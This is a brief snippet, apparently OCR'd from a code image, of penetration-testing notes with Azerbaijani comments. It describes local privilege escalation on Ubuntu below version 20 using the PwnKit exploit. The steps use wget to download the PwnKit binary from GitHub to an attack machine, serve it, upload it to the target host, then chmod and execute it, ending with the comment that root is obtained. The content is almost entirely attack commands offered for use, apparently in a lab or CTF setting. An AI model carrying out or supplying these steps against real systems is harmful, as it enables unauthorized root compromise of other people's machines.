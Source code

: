 # eger ubuntu 20 den asaqidirsa
   # oz atack masinimizda
     wget https://github.com/ly4k/PwnKit/raw/main/PwnKit
  # daha sonra server qaldirib yukledikden sonra 
  # hedef masin
      chmod +x PwnKit
      ./PwnKit
  # artiq root
